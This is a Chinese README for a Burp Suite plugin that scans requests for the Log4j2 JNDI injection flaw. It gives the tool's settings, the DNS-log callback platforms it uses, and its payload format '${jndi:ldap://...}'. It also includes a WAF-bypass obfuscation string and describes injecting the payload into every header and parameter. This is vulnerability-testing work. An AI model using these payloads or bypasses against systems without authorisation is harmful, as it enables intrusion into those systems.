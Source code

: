 # 本工具仅为企业测试漏洞使用，严禁他人使用本工具攻击
本插件基于 https://github.com/f0ng/log4j2burpscanner/ 进行改造，在此感谢f0ng师傅在本项目上做出的贡献。

## 如何食用？
#dns_mothed
本插件支持3个dns平台：
	https://dns.xn--9tr.com/(默认使用)
	http://ceye.io/
	http://www.dnslog.cn/(由于延迟较高不建议使用)
本插件支持自定义dns平台

#log4j2burpscanner.properties
插件第一次运行时，会在burp目录下创建log4j2burpscanner.properties配置文件。其中的各项含义如下：
log_method=0		默认使用第0个dns平台
passivepattern=false		配合burp自带的被动扫描功能，默认关闭
ceyetoken=xxxxxx		ceye.io的用户token
ceyednslog=xxxx.ceye.io	ceye.io的用户dns地址
privatedns=xxxxxx		用户自定义dns地址
isuseUserAgentTokenXff=true	是否测试请求中的UA头/token头
isuseXfflists=false		是否测试Xff(X-forwarded-for)等请求头
isuseAllCookie=true		是否测试cookie
isuseRefererOrigin=false	是否测试Referer
isuseContenttype=false	是否测试Content-type
isuseAccept=false		是否测试useAccept
custom_dnslog_protocol=jndi:ldap:	ayload中"jndi:ladp:"的位置字段，可以自定义"jndi:"的bypass方式,例如输入${lower:j}ndi${::-:}lda${lower:p}:
dnslog_protocol_index=1		payload中"jndi:ladp:"的位置字段的一些默认提供项，设置为0就可使用上一项自定义的custom_dnslog_protocol，设置8为最强bypass
whitelists=*.gov.cn *.edu.cn	不进行测试的host名单
customlists=X-Client-IP X-Requested-With X-Api-Version
			需要额外添加并测试的请求头，用空格分隔
config中有save configuration，load configuration，test dnslog三个按钮，分别用于保存当前设定的properties，加载properties文件和测试当前选择的dns平台是否可用。


#output
插件加载完成后，应当出现如下字样
=============================================
[+]               load successful!           
[+]        log4j2burpscanner v0.22.funny       
[+] https://github.com/f0ng/log4j2burpscanner
[+]                 recode by funnyndk            
=============================================
[+]using log.xn--9tr.com now!
[+]dns address : 7f124f45.dns.1433.eu.org
[+]dns token : r3ewux4bob98
[+]You also can request to    https://log.xn--9tr.com/r3ewux4bob98    to see dnslog
其中dns address为payload中请求的域名，https://log.xn--9tr.com/r3ewux4bob98可以人为查看解析记录

#menu
对请求包右键的菜单栏中，新增了"Send to log4j2 Scanner"选项，点击后将对包进行注入改造并且测试。完成dns询问后，会在log4j2 RCE栏中展示恶意请求和结果等等

#payload
真正的payload格式如下
"${"+jndiparam+dnsldaprmi+"//"+random+"."+chosen_dnslog+"}"
pyload将根据设定和请求类型，注入所有的请求头或GET参数或POST参数中(存在特殊情况无法识别)


##FAQ
Q：为什么安装插件失败，提示java.lang.ClassFoundException: burp.BurpExtender
A：请使用jdk1.8，本插件开发环境为jdk1.8，测试环境为Burp Suite Pro 1.7.31。如果已使用jdk1.8，请更新jdk小版本。开发机版本为jdk1.8.0_291，请至少与之一致，

Q：为什么点了"Send to log4j2 Scanner"选项，log4j2 RCE栏中没有出结果
A：由于网络延迟，扫描可能较慢。或是请求包出现问题，没有相应返回，请检查是否被防火墙等设备封禁。

Q：为什么加载插件显示"load ERROR"
A：一般由于选择的dns平台无法正常访问，也有可能配置文件出现异常。

##dev or update note
/*
* 0.19.funny dev note
* 20220617 dev list
*   add a "dnslog.cn" dnslog platfrom chocie            done!
*   make it to a slowly passively auto-detection
*   more methods to bypass                              update continually...
*   more position in request to inject log4j2 payload   done!
* 20220623 dev list
*   fix the code bug                                    done!
*   test all program fuction                            done!
*/
/*
* 0.20.funny update note
* 20220629 update list 
*   fix the bug - cant send request without response to log4j2 scanner
*   update the feature - log4j2 scanner will show the records even though of which the request doesnt get a response
*/
/*
* 0.21.funny update note
* 20220704 update list 
*   update the feature - change how the plugin modifies custom_dnslog_protocol
* 
*/
/*
* 0.22.funny update note
* 20220801 update list
*   optimize the code - use "Abstract Factory" to dnslog platforms list, make it more easy to maintain current platforms or increase a new one
*   update the feature - add a random bypass mode like j => ${"random_str":"random_str":"random_str"... - j}
*   update the feature - support privatedns mode
*/
